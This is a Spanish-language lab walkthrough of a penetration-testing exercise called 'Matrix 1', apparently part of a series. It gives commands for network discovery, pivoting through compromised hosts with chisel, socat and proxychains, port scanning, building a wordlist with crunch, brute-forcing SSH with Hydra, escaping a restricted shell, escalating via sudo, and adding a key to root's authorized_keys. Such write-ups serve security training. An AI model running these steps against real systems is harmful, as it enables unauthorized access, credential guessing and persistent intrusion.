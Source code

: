 ```yaml
---
title: "5. Matrix 1"
description: "5. Matrix 1"
pubDate: 2025-05-20
---
```


[4. Dumbledore](4.%20Dumbledore.md)

# Fase de reconocimiento

## Buscamos hosts en la red

````
arp -a
````

No sale nada.
Borramos la tabla arp.

````
arp -d
````

Haremos descubrimiento con un bucle

````
for /L %a in (1,1,254) do @start ping <subnet5>.%a -w 100 -n 2>nul
````

````
arp -a
````

## Pivoting con Chisel

https://github.com/jpillora/chisel Nos descargamos la version Win_amd64
Chisel creará un tunnel entre el chisel servidor y el/los cliente/s trayendo puertos.
Para poder utilizar la maquina atacante todo el rato.

1. Abrimos un server smb en el equipo atacante

````
smbserver.py smbFolder $(pwd) -smb2support
````

2. Copiamos chisel en la maquina Dumbledore

````
copy \\<ip2>\smbFolder\chisel.exe chisel.exe
````

3. Nos conectamos al servidor

````
./chisel client <ip2>:6543 R:9999:socks
````

4. Con socat en Nagini lo redirigimos al servidor

````
./socat TCP-LISTEN:6543, fork TCP:<ip1>:1234
````

Esto abrirá un túnel por la 9999 con la red del cliente
5. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"

````
# strict_chain
Deshasteamos dynamic_chain
add abajo:
	socks5 127.0.0.1 9999
	socks5 127.0.0.1 8888
	socks5 127.0.0.1 1080
````

Ahora para ejeuctar comandos en 'ip4' con proxycahins -comando-

## Buscar puertos

````
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip5> 2>/dev/null
````

Buscaremos puertos con la ayuda de xargs para agilizar el escaneo

````
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n <ip5> 2>&1 | grep "tcp open"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240424212524.png)

## FoxyProxy

Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 9999

## whatweb

````
proxychains whatweb http://<ip5>:31337
````

Encontramos una pista en base64 que nos lleva a otra pista en lenguaje brainfuck que contiene una contraseña a la que le faltan 2 caracteres.

# Fase de ataque

## Fuerza bruta

### Crunch

Crea diccionario de contraseñas para ataque de fuerza bruta

````
crunch 8 8 -t Kill0r%@ > passwords
````

````
crunch 8 8 -t Kill0r@% >> passwords
````

### Hydra

````
proxychains hydra -l guest -P passwords ssh://<ip5> -t 20 2>/dev/null
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240424215026.png)
\[-\] ==pwned!==

Nos encontramos ante una restricted bash, por lo que cargamos bash:

````
proxychains ssh guest@<ip5> bash
````

Ajustar Terminal

# Privilege Escalation

````
sudo -l
````

Tenemos todos los privilegios por lo que podemos ser root

````
sudo whoami
````

\[+\] ==pwned!==

# Pivoting

* Añadimos nuestra clave publica a /root/.ssh/authorized_keys

````
proxychains ssh root@<ip2>
````

# Resumen Técnicas

Crypto Challenge
Creating a password dictionary using crunch
EXTRA: Applying brute force with Hydra by going through a triple SOCKS5 proxy
Escaping from a restrictive shell
Abusing sudoers privilege (Privilege Escalation)
